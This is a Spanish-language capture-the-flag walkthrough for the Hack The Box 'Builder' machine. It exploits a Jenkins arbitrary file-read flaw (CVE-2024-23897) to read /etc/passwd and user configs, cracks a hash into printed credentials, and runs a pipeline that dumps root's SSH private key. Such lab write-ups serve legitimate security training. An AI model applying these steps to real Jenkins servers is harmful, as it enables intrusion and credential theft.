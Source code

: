 #by d4l1

<p align="center"><img src="https://github.com/user-attachments/assets/2e74501b-e6df-4d0b-89e3-1f6bd4194b76"></p>
<h1 align="center">BUILDER</h1>

# ÍNDICE

- [INICIO](https://github.com/D4l1-web/HTB/blob/main/Medium/Builder-HTB.md#inicio)
- [ENUMERACION](https://github.com/D4l1-web/HTB/blob/main/Medium/Builder-HTB.md#enumeracion)
- [INTRODUCCIÓN AL SISTEMA](https://github.com/D4l1-web/HTB/blob/main/Medium/Builder-HTB.md#enumeracion)
- [ESCALA DE PRIVILEGIOS](https://github.com/D4l1-web/HTB/blob/main/Medium/Builder-HTB.md#escala-de-privilegios)

# INICIO

Nos encontramos con la máquina Builder, una máquina de dificultad media, en la que encontrarmemos una vulnerabilidad con el CVE-2024-23897 sobre desautentificación de usuarios y leeremos archivos arbitrariosdel sistema para tomar el control. Deberemos xtraer el usuario y contraseña del usuario "Jennifer". Usar esas crendeciales, coger una SSH key y obtener acceso root al sistema

## HABILIDADES REQUERIDAS

- Enumeracion
- Docker

## HABILIDADES QUE APRENDEREMOS

- Explotar CVE-2024-23897
- Estructura de directorio Jenkins
- Criptografia Jenkins

# ENUMERACION

Como siempre haremos un test de conectividad:

![image](https://github.com/user-attachments/assets/904ac6e8-847a-402a-8145-2276c2de6db4)

ttl = 63 (Linux)

Posteriormente escaneo de puertos:

![image](https://github.com/user-attachments/assets/b7f7816e-2c67-4d7c-9ea0-03690942f7c1)

Nos encontramos con:

- Puerto 22 abierto (SSH) Ubuntu
- Puerto 8080 abierto (HTTP) Jetty 10.0.18

![image](https://github.com/user-attachments/assets/5ff9d0bf-a66e-4c5f-91fd-0f04756b071d)

Nos encontramos con una página web con Jenkins 2.441 vamos a explorar.

Vamos a buscar una vulnerabilidad de "Jenkins 2.441"

Nos encontramos con : [CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897?source=post_page-----143ad7fde347--------------------------------)

Nos explican un poco sobre Jenkins, es un server automatico de código abierto. Ayuda a automatizar partes del software para los desarolladores haciendo testing, construición, implementaciones, etc.

Esta vulnerabilidad nos deja leer archivos del sistema

```
python3 script.py -u http://10.10.11.10:8080/ -f /etc/passwd

```
# INTRODUCCIÓN AL SISTEMA

Una vez que confirmamos que el exploit funciona, vamos a enumerar los elementos de la instalación de Jenkins en la ruta "/proc/self/environ"
```
HOSTNAME=0f52c222a4cc<SNIP>HOME=/var/jenkins_home<SNIP>
```
Leyendo estas variables, encontramos que el directorio home esta en "/var/jenkins_home"

![image](https://github.com/user-attachments/assets/524d632a-4c1e-48bf-af25-593fdbf63169)

Tenemos la user.txt

Si nos damos cuenta la variable "HOSTNAME" no especifica un "builder" o algo similar, los caracteres randomizados usualmente se indica que es un contenedor Docker.

Nuestra mejor opción es crear un docker local de el repositorio oficial de jenkins

```
docker pull jenkins/jenkins:lts-jdk17
docker run -p 8080:8080 --restart=on-failure jenkins/jenkins:lts-jdk17
```

Una vez todo correcto nos conectamos a nuestra instancia "http://127.0.0.1:8080"

![image](https://github.com/user-attachments/assets/94339f1e-b333-463a-a127-5cc38bda9bef)

elegimos que queremos instalarlo pero en normal

![image](https://github.com/user-attachments/assets/489bb7ea-4a21-49e6-b3b7-e9e516f53b1b)

![image](https://github.com/user-attachments/assets/a53c8408-7f41-49ae-a913-1086ccf722cf)

En la siguiente pagina tenemos la instancia de la configuracion hacemos que no ahora y nos salimos

```
docker ps -a
docker start 63c
docker exec -it 63c bash
```

Nos conectamos dentro y buscamos rutas

```
cd
ls
ls users
cat users/users.xml
```

Hemos encontrado la ruta del directorio de nuestros usuarios, dentro de ella encontramos una rchivo "config.xml" 

```
cat users/amra_5955286986173787020/config.xml
```

Ahora que sabemos que tenemos la disponibilidad de extraer una contraseña y los usuarios vamo a hacer lo mismo pero arbitrariamente

```
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.129.230.220:8080'
help "@/var/jenkins_home/users/users.xml"
```

![image](https://github.com/user-attachments/assets/d080d597-eca9-4bff-996e-551d5cefd279)

Vemos que este archivo no existe, o quizas el comando "help" no extrae las dos primeras lineas vamos a utilizar el comando "connect-node"

![image](https://github.com/user-attachments/assets/79a2f97f-1eaf-4617-8f9b-906fa21d3cd3)

Lo tenemos

Ahora nos vamos a la configuracion de el usaurio "jennifer"

![image](https://github.com/user-attachments/assets/4a80a176-9b41-4c33-b352-b7c76b80e002)

tenemos el hash vamos a cogerlo y con john intentarlo crackear

![image](https://github.com/user-attachments/assets/0278f55b-8215-4466-88d2-6ca656bad292)

Tenemos usuario y contraseña jennifer:pricess

Vamos a meternos a la página web con esos credenciales.

![image](https://github.com/user-attachments/assets/349ae4d8-4f96-42c1-8887-892e34b9e0ec)

# ESCALA DE PRIVILEGIOS

Viendo como funciona Jenkis, nosotros podemos coger credenciales guardas con el nombre root.

![image](https://github.com/user-attachments/assets/d365284c-c304-4d96-b858-938e629abfa9)

Esta credencial es una key de ssh, tenemos que mirar plugins o alguno instalado para cogerlo 

![image](https://github.com/user-attachments/assets/b52113d5-01b9-4729-beec-9b5578466d07)

Esto hace que craftene comandos para poder usar SSH. VAmos a chekear si la ssh es valida del usuario root.

Vamos a crear un nuevo item "pipeline"

![image](https://github.com/user-attachments/assets/fc80000e-d8ab-4a42-ba4d-ad861b15e999)

Dentro de la sección ponemos que lea la key de ssh
```
pipeline {
agent any
stages {
stage('SSH') {
steps {
script {
sshagent(credentials: ['1']) {
sh 'ssh -o StrictHostKeyChecking=no root@10.129.230.220
"cat /root/.ssh/id_rsa"'
}
}
}
}
}
}
```

![image](https://github.com/user-attachments/assets/47ae12c5-f8bd-4c43-955a-c77003dba684)

Lo guardamos y pulsamos sobre "Build Now" y vemos el output de la consola

![image](https://github.com/user-attachments/assets/46540f00-1f7c-4da1-9d7e-c038dc89b232)

La tenemos 

![image](https://github.com/user-attachments/assets/3dbc24b1-82bf-4006-a7fb-59869be4dd2c)

Estamos dentro GG

![image](https://github.com/user-attachments/assets/7fcb6e26-61bd-4df0-84fa-3d9c43b5aa44)




